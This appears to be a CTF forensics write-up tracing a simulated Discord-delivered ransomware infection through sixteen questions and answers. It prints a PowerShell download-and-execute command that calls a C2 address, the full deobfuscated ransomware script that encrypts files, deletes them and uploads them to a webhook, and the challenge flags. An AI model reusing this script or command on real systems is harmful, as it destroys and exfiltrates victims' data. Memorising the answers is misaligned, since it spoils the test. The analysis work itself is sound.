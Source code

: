 # hacked

1. Username on the device infected with malware?

![q1](src/static/q1.png)

Answer: `Peacock`

2. Which folder is encrypted by the malware?

![q2](src/static/q2.png)

Answer: `C:\Users\Peacock\Downloads`

3. The threat actor's crypto wallet?

![q3](src/static/q3.png)

Answer: `0xe28789577b1F8cfD964b2fD860807758216CeAE1`

4. What applications do threat actors use to interact with victims?

Answer: `Discord`

5. Victim's Discord ID?

Export discord cache and parse it using `ChromeCacheViewer`

![q5](src/static/q5.png)

Extract and grep the ID

```
...
"author":{"id":"1391969554309058590","username":"peacock1337","avatar":"2980ae3fb2caa8759ec385a5f0893742",
...
```

Answer: `1391969554309058590`

6. Threat actor's Discord ID?

Following the same method as before

```
...
"author":{"id":"1391972617149481050","username":"f16yum","avatar":"9614bb4b6e68e613804937c4567074b4",
...
```

Answer: `1391972617149481050`

7. When did the threat actor join the same group as the victim?

On Discord cache, it appears that the threat actor and the victim are in the same group, called `Risk of Rain 2`. Join the group and find the threat actor username

![image](src/static/q7.png)

Answer: `08/07/2025`

8. The link containing malware that was sent by the threat actor to the victim?

Use the same file as to answer questions 4 and 5

```
...
{"type":0,"content":"https://drive.google.com/file/d/1ZK-MED8DZcgsITflYMvWwAzYIlOFS7zu/view?usp=sharing","mentions":[],"mention_roles":[],
...
```

Answer: `https://drive.google.com/file/d/1ZK-MED8DZcgsITflYMvWwAzYIlOFS7zu/view?usp=sharing`

9. After the victim downloads and unzips the file, the malware file is moved to what folder?

Based on $MFT data, the victim moved main.exe from `C:\Users\Peacock\Downloads\main.exe` to `C:\Users\Peacock\Documents\main.exe`

![q9](src/static/q9.png)

Answer `C:\Users\Peacock\Documents\main.exe`

10. What is the URL accessed by the initial dropper to download the second-stage loader?

There are two methods. One is static analysis, where the malware's code is reversed using [pyinstxtractor-ng](https://github.com/pyinstxtractor/pyinstxtractor-ng) and deobfuscate the code. The other method is dynamic analysis, which can be run directly.

Answer `http://143.198.88.30:1338/installer.exe`

11. Where was the second-stage loader stored after being downloaded?

The first stage malware will store the initial malware in the `C:\Windows\Temp` directory

![image](src/static/q11.png)

There are 2 files, the first one is 0 size because the malware failed to run but the victim executed the malware again. And the second file, `MkbrkEXh.exe` is the answer

Answer: `C:\Windows\Temp\MkbrkEXh.exe`

12. What repository does the threat actor use to develop the second-stage loader?

This malware was written using [go-shellcode](https://github.com/Ne0nd0g/go-shellcode), a technique previously used by lazarus. By exploiting `UuidFromStringA`, lazarus successfully bypassed several AVs at the time

Answer: `https://github.com/Ne0nd0g/go-shellcode`

13.  What is the full PowerShell command executed by the second-stage loader?

This can be obtained from the powershell log located at `C:\Windows\System32\winevt\Logs\Windows PowerShell.evtx`

![image](src/static/q13.png)

Answer: `powershell -nop -w hidden -c IEX (New-Object Net.WebClient).DownloadString('http://143.198.88.30:1338/o.ps1')`

> Or do static analysis on the second-stage loader

14. What URL does the final payload send the encrypted file to after encryption?

If the powershell script is reversed, it will look like this

```powershell
$keyString = [System.Text.Encoding]::UTF8.GetString(
    [System.Convert]::FromBase64String("SUlUVFNTRUVDQ19DVEYyMDI1Q295eXl5eSEhISE=")
)

function XorEncrypt($data, $key) {
    $result = [byte[]]::new($data.Length)
    for ($i = 0; $i -lt $data.Length; $i++) {
        $result[$i] = $data[$i] -bxor $key[$i % $key.Length]
    }
    return $result
}

function UploadFileToWebhook($filePath, $webhookUrl) {
    try {
        Invoke-RestMethod -Uri $webhookUrl -Method Post -InFile $filePath -ContentType "application/octet-stream"
    } catch {
        Write-Host "Failed to upload $filePath: $_"
    }
}

$downloadsPath = [System.IO.Path]::Combine(
    [System.Environment]::GetFolderPath("UserProfile"),
    "Downloads"
)

$files = Get-ChildItem -Path $downloadsPath -File -Recurse

foreach ($file in $files) {
    $fullPath = $file.FullName

    $fileBytes = [System.IO.File]::ReadAllBytes($fullPath)

    $encryptedBytes = XorEncrypt $fileBytes ([System.Text.Encoding]::UTF8.GetBytes($keyString))

    $encryptedFilePath = $fullPath + ".enc"
    [System.IO.File]::WriteAllBytes($encryptedFilePath, $encryptedBytes)

    Remove-Item $fullPath

    $webhookUrl = "https://webhook.site/5bdcd260-64f9-47d9-9fb5-1ef8146dc402"
    UploadFileToWebhook $encryptedFilePath $webhookUrl
}

$ransomNotePath = [System.IO.Path]::Combine($downloadsPath, "README.txt")
[System.IO.File]::WriteAllText($ransomNotePath, "Send me 10000 USDT to unlock your PC (0xe28789577b1F8cfD964b2fD860807758216CeAE1)")
```

Using the previous script, the answer is in `$webhookUrl` variable

Answer: `https://webhook.site/5bdcd260-64f9-47d9-9fb5-1ef8146dc402`

15. What key was used by the final payload to encrypt the Downloads folder?

Using the previous script, decode the string in the variable `$keyString`

![q15](src/static/q15.png)

Answer: `IITTSSEECC_CTF2025Coyyyyy!!!!`

16. Decrypt the .txt file located in the Downloads folder and input its contents!

Extract `IMPORTANT NOTES.txt.enc` and decrypt the file to get the answer

![image](src/static/q16.png)

Answer: `EzMalware_1337!!`

# References:

- https://abrignoni.blogspot.com/2018/03/finding-discord-app-chats-in-windows.html
- https://cocomelonc.github.io/malware/2022/07/21/malware-tricks-22.html#uuidfromstringa